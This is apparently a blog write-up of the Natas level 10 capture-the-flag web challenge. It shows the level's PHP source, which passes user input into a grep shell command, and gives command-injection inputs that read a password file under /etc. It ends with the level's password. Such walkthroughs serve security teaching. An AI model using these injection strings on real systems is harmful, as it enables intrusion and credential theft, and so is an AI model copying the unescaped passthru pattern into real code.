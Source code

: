 ```yaml
---
layout: post
title: "Natas Level10 - Level11"
date: 2015-09-24 22:28:02
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas10 looks exactly the same as natas9 except that it warns us that:

    For security reasons, we now filter on certain characters

Intresting... Let's take a look at the source and see what they do differently:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas10", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas10</h1>differently
    <div id="content">

    For security reasons, we now filter on certain characters<br/><br/>
    <form>
    Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
    </form>


    Output:
    <pre>
    <?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i $key dictionary.txt");
        }
    }
    ?>
    </pre>

    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>


It looks like the biggest difference is the following code:

    if(preg_match('/[;|&]/',$key))
    
Basically if your input contains the ";" or "&" character, you will get an error. 

In natas9, our input was:

    . /etc/natas_webpass/natas10
    
Which does not contain either of those characters. It looks like they were expecting a different answer for natas9... oops!

Lets see if this input works for natas10:

![Screenshot1](/assets/img/screenshots/Natas_level10-1.png)

Yup! I assume that for natas9 they were expecting something like:

    a /dev/null; cat /etc/natas_webpass/natas10;

Anyway, the password is:

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

 
 

